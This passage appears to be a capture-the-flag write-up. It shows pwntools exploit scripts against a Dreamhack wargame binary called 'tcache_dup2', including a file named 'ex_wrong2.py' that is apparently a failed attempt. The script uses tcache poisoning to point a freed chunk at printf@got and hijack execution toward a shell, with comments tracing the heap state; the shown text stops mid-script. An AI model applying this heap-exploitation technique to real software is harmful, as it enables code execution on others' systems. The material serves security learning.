 ```
get_shell = e.symbols['get_shell']
create(0x20, p64(get_shell))

p.interactive()
```

# `ex_wrong2.py`

```
from pwn import *

p = remote('host3.dreamhack.games', 17171)
elf = ELF('./tcache_dup2')


def create(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def modify(idx, size, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def delete(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'idx: ', str(idx).encode())


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[0]
create(0x20, b'a')
# tcache[0x20] : empty
# chunk : ptr[1]
create(0x20, b'b')


# tcache[0x20] : ptr[0]
# tc_idx = 1
# chunk : ptr[1]
delete(0)
# tcache[0x20] : ptr[1] -> ptr[0]
# tc_idx = 2
# chunk : ptr[1]
delete(1)


# tcache[0x20] : ptr[1] -> printf@got
# tc_idx = 2
# chunk : ptr[1]
printf_got = elf.got['printf']
modify(1, 0x10, p64(printf_got))


# tcache[0x20] : printf@got
# tc_idx = 1
# chunk : ptr[2]
```